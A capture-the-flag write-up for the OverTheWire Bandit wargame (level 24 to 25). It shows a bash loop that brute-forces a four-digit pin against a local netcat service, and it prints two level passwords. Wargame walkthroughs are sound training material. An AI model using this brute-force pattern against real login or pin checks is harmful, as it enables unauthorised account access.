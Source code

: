 # Bandit Level 24 -> Level 25:

In this level we need to brute force a pin in order to solve the challenge. If we send a pin to port 30002 we receive:

```sh
nc localhost 30002 <<< "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000"
I am the pincode checker for user bandit25. Please enter the password for use bandit24 and the secret pincode on a single line, separated by a space.
Wrong! Please enter the correct pincode. Try again.
```

We write a bash script to brute-force all combinations:

```bash
bandit24@bandit:~$ cat /tmp/exploit
#!/bin/bash

for i in {0000..9999}; do
  echo "VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar ${i}"
done | nc localhost 30002
```

Now we only need to run it and search for the correct output, by ignoring the "Wrong!" messages.

```sh
bandit24@bandit:~$ /tmp/exploit | grep -v "^Wrong!"
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
```
